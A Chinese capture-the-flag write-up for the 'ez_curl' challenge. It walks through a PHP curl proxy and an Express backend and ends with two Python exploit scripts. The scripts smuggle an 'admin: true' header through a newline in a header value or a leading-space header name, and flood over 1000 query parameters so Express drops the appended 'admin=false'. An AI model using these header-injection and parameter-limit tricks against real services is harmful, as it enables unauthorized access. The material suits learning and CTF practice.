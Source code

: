 # [攻防世界ez_curl](https://www.cnblogs.com/hackerone/p/17536668.html)

点进去就是一个代码审计：
```php
<?php
highlight_file(__FILE__);
$url = 'http://back-end:3000/flag?';
$input = file_get_contents('php://input');
$headers = (array)json_decode($input)->headers;
for($i = 0; $i < count($headers); $i++){
    $offset = stripos($headers[$i], ':');
    $key = substr($headers[$i], 0, $offset);
    $value = substr($headers[$i], $offset + 1);
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
        die('try hard');
    }
}
$params = (array)json_decode($input)->params;
$url .= http_build_query($params);
$url .= '&admin=false';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
curl_setopt($ch, CURLOPT_NOBODY, FALSE);
$result = curl_exec($ch);
curl_close($ch);
echo $result;
```

题目给的附件是一个app.js:



```js
const express = require('express');

const app = express();

const port = 3000;
const flag = process.env.flag;

app.get('/flag', (req, res) => {
    if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
        res.send(flag);
    }else{
        res.send('try hard');
    }
});

app.listen({ port: port , host: '0.0.0.0'});
```


先看一下php代码，有一个file_get_contents('php://input')，这是一个文件包含，当Content-Type为application/x-www-form-urlencoded且提交方法是POST方法时，$_POST数据与php://input数据是一致的。

然后会`$headers = (array)json_decode($input)->headers把post过去的数据解码成数组，很明显post的内容就是http请求里的headers，写post数据的时候要写成json的形式。像这样：`

```JSON
{"headers": ["admin:true"]}
```

看一下nodejs的判断条件：

```PHP
 if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
       res.send(flag);
   }

```
要求admin传参不包含'false'并且headers请求头里的admin字段包含'true'，由于express的parameterLimit默认为1000，即参数最大限制为1000，写脚本请求加上1000个参数就能成功把拼接的&admin=flase挤掉，

后一个条件，要求headers里的admin字段包含'true'就行了，可以是'xtrue'，这里根据RFC 7230(HTTP/1.1协议的定义)的规定，规定了 field-name 是由一个或多个打印的 ASCII 字符组成，不包括分隔符，包括空格。因此，如果一个 field-name 的第一个字符是空格，那么这个 HTTP header 是非法的，应该被服务器或客户端忽略或拒绝，然而，Node.js 在处理这类情况时通常是宽容的。

最终的post的内容：
```JSON
{"headers": ["admin: x", " true: y"]}
```

这样写可以绕过php代码中的die("try hard")

该headers在nodejs解析的时候，会得到如下数据：
```JSON
{
  "admin": "x true y"
}

```
经nodejs解析后admin字段包含‘true’，满足条件。

附上大佬脚本：

脚本1：header换行绕过

```PYTHON
import json
import requests
from abc import ABC

url = "http://61.147.171.105:62546/"


datas = {"headers": ["xx:xx\nadmin: true", "Content-Type: application/json"],
         "params": {"admin": "true"}}

for i in range(1020):
    datas["params"]["x" + str(i)] = i
headers = {
    "Content-Type": "application/json"
}
json1 = json.dumps(datas)
print(json1)
resp = requests.post(url, headers=headers, data=json1)
print(resp.content)
```

脚本2：headers中字段开头空格

```python
import json
import requests
from abc import ABC


url = "http://61.147.171.105:49903/"
datas = {"headers": ["admin:a"," true:a", "Content-Type: application/json"],

         "params": {"admin": "true"}}

for i in range(1020):

    datas["params"]["x" + str(i)] = i

headers = {
    "Content-Type": "application/json"
}

json1 = json.dumps(datas)
print(json1)
resp = requests.post(url, headers=headers, data=json1)
print(resp.content)
```